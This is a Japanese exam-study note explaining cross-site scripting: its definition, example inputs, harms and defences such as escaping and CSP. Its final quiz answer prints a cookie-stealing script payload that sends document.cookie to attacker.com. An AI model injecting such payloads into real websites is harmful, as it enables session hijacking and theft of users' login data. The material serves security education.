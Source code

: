 　（解答）**クロスサイトスクリプティング (Cross-Site Scripting: XSS)**
　（解説）クロスサイトスクリプティング（XSS）は、`Webサイトの脆弱性`を利用して悪意のあるコードをユーザのブラウザに送り込み、実行させる攻撃です。
IPAの定義では「Webアプリケーションの入力値検証の不備を利用して、攻撃者が用意したスクリリプトを利用者のブラウザで実行させる攻撃」とされています。

---

## クロスサイトスクリプティング（XSS）
## 定義：入力値のチェックの不備とは

Webアプリケーションが、利用者から送られてくる入力値（フォームの内容やURLパラメータなど）を適切に検証・処理せずにそのまま表示してしまうことを指す。
この不備があると、攻撃者が悪意あるスクリプト（JavaScriptなど）をWebアプリケーションに入力し、それが他の利用者のブラウザ上で自動的に実行されてしまう危険がある。

## 入力値とは
- 名前、メールアドレス、コメント欄などのフォーム入力
- URLのクエリパラメータ（例：`?search=〇〇`）
- 検索ボックスや投稿欄の内容

## 不備があるとどうなるか
攻撃者が以下のようなスクリプトをWebアプリケーションに入力したとする：
<script>alert('XSS')</script>

この入力がそのままHTMLとして表示されると、他の利用者がそのページを閲覧した際に、ブラウザはこのスクリプトを命令として解釈し、悪意のあるJavaScriptを実行してしまう。

## 被害例
- セッションハイジャック：`document.cookie` を使ってログイン情報を盗まれる
- フィッシング詐欺：偽の入力フォームを表示して、個人情報を入力させる
- リダイレクト攻撃：`window.location` を使って偽サイトに誘導される

## なぜ「他のユーザー」が被害を受けるのか
攻撃者は、コメント欄などに悪意あるスクリプトを`投稿`する。
Webアプリがそれをそのまま表示すると、その投稿を`閲覧した他の利用者のブラウザでスクリプトが実行される`ため、被害が発生する。
このような攻撃は、`攻撃者がサイト運営者の権限を持たずとも、一般利用者として投稿するだけ`で成立するという点が特徴である。

## 対策方法
- 入力値のサニタイズ：HTMLタグや特殊文字を無害化する（例：`<` → `&lt;`）
- 出力時のエスケープ処理：表示する際にスクリプトとして解釈されないようにする
- Content Security Policy（CSP）の設定：外部スクリプトの読み込みを制限
- 信頼できるフレームワークの利用：Reactなどは自動的にエスケープ処理を行う


---



## 【問題】クロスサイトスクリプティング攻撃において、被害者のブラウザで任意のJavaScriptを直接実行させる目的で挿入される、最も典型的なHTMLタグです。

　（解答）**`<script>` タグ**
　（解説）`<script>`タグの挿入は、XSS攻撃の代表的な手口です。攻撃者は、Webアプリケーションの入力フォームなどに `<script>document.location='http://attacker.com/?c='+document.cookie;</script>` のようなコードを埋め込みます。`サイト側に対策が施されていない場合、このコードがそのまま他の利用者のブラウザで実行され、Cookie情報が攻撃者のサーバへ送信`されてしまいます。
